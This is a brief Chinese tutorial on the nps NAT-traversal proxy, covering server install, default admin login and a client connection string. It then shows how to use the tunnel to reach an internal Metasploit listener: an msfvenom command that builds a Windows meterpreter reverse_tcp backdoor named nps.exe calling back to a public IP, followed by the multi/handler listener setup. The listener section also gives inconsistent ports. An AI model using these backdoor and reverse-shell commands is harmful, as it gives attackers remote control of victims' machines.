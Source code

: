<https://github.com/ehang-io/nps>
nps是一款轻量级、高性能、功能强大的内网穿透代理服务器。
目前支持tcp、udp流量转发，可支持任何tcp、udp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面，内网dns解析等等），此外还支持内网http代理、内网socks5代理、p2p等，
并带有功能强大的web管理端，相当于多功能版frp。

## **服务端**
./nps install
./nps

此时访问后台ip:8080
账号admin，密码123

进入后台
创建隧道客户端，生成密钥
添加协议，绑定端口
如：远程5555穿透到本地6666

## **客户端**
连接服务端：
./npc -server=47.94.236.117:8024 -vkey=uajwhbu9155qh89v2

## **内网MFS变公网**
生成后门：
msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117 lport=5555 -f exe -o nps.exe
监听：
内网机MSF监听2222端口
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.6
set lport 6666
run


